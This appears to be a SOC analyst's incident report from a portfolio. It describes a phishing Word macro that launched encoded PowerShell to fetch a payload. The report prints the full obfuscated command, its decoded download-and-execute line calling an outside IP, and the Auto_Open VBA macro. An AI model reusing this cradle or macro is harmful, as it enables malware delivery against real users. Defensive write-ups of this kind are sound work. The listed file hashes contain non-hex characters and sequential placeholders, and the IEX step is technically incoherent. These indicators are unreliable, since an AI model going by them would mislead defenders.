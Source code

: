 # Case 002: PowerShell Encoded Command Execution

**Date:** September 15, 2025  
**Analyst:** Artem Khludov  
**Company:** EnergyLogic AI  
**Severity:** CRITICAL  
**Status:**  Resolved


## Executive Summary

Detected malicious PowerShell execution with Base64-encoded command launched from Microsoft Word. Phishing email attachment triggered macro that executed encoded PowerShell to download and execute second-stage payload. User's machine quarantined, payload analyzed, and email sender blocked within 20 minutes.


## Timeline

| Time | Event | Status |
|------|-------|--------|
| 11:42:00 | Phishing email received |  Delivered |
| 11:45:30 | User opened Word attachment |  Macro enabled |
| 11:45:35 | PowerShell encoded command executed |  Detected |
| 11:45:40 | Attempted C2 connection |  Blocked by firewall |
| 11:48:00 | EDR alert to SOC |  Escalated |
| 11:50:00 | Host isolated |  Contained |
| 12:05:00 | Malware removed, system cleaned |  Remediated |


## Technical Details

### Encoded PowerShell Command

**Obfuscated:**
```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAyADQAMQAuADIAMQA4AC4AMQAzADIALwBwAGEAeQBsAG8AYQBkAC4AZQB4AGUAJwApAA==
```

**Decoded:**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.241.218.132/payload.exe')
```

**Translation:** Download and execute malicious payload from attacker-controlled server


## Attack Vector

### Phishing Email
- **From:** invoice@accounting-services[.]com (spoofed)
- **Subject:** "Urgent: Overdue Invoice #A-8472"
- **Attachment:** Invoice_September.docm (malicious macro)
- **Target:** finance@energylogic.ai

### Macro Analysis
```vba
Sub Auto_Open()
    Dim cmd As String
    cmd = "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -enc SQBFAFg..."
    Shell cmd, vbHide
End Sub
```


## IOC (Indicators of Compromise)

### Network
- **C2 Server:** 192.241.218.132
- **Domain:** accounting-services[.]com (typosquatting)
- **User-Agent:** `Mozilla/5.0 (Windows NT 10.0; Win64; x64)`

### File Hashes
- **Invoice_September.docm:** `7f8b4e2a9c1d3f5e6b8a9c0d2e4f6g8h`
- **payload.exe:** `a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6` (VirusTotal: 45/70 detections)

### Process Activity
```
WINWORD.EXE (PID: 4832)
  > powershell.exe -enc ... (PID: 5124)
      > payload.exe (PID: 5248) [BLOCKED by EDR]
```


## MITRE ATT&CK Mapping

| Technique | Description | Evidence |
|-----------|-------------|----------|
| T1566.001 | Phishing: Spearphishing Attachment | Invoice_September.docm |
| T1204.002 | User Execution: Malicious File | User enabled macros |
| T1059.001 | Command and Scripting: PowerShell | Encoded PowerShell |
| T1027 | Obfuscated Files or Information | Base64 encoding |
| T1105 | Ingress Tool Transfer | Attempted payload download |
| T1071.001 | Application Layer Protocol: Web | HTTP C2 communication |


## Response Actions

### Containment
- [x] Isolated user workstation (WS-FINANCE-02)
- [x] Blocked C2 IP 192.241.218.132 on firewall
- [x] Quarantined email from mail gateway
- [x] Disabled user account temporarily

### Eradication
- [x] Removed malicious Word document
- [x] Killed PowerShell process
- [x] Full EDR scan (no additional malware found)
- [x] Registry cleanup (no persistence detected)

### Recovery
- [x] User password reset
- [x] Security awareness training completed
- [x] Workstation restored to network
- [x] Account re-enabled


## Detection Rule

See `detection_rule.yaml` for Splunk/SIEM implementation

**Trigger Logic:**
- PowerShell with `-enc` or `-encodedCommand` parameter
- Parent process is Office application
- Command length > 100 characters
- External network connection attempt


## Root Cause

1. User clicked phishing email
2. Enabled macros despite security warning
3. No email attachment scanning (DOCM files allowed)
4. PowerShell execution not restricted


## Recommendations

**Immediate:**
- [x] Block DOCM/XLSM attachments at email gateway
- [x] Deploy PowerShell Constrained Language Mode
- [x] Update phishing awareness training

**Short-term:**
- [ ] Implement ATP (Advanced Threat Protection) for Office 365
- [ ] Deploy AMSI (Antimalware Scan Interface)
- [ ] Create email sender reputation filtering

**Long-term:**
- [ ] Application whitelisting (AppLocker)
- [ ] Behavioral analysis for PowerShell scripts
- [ ] Simulated phishing campaigns quarterly

## Lessons Learned

**What worked:**
- EDR detected and blocked payload execution  
- I isolated the host quickly, prevented lateral movement
- Firewall blocked C2 communication

**What needs improvement:**
- Email gateway needs better attachment filtering
- Need stronger user warnings for macros
- PowerShell logging needs to be enabled by default

**Reported to:** Security Manager, IT Team  
**User Training:** Completed 2025-09-16  
**Status:** Closed - No data exfiltration

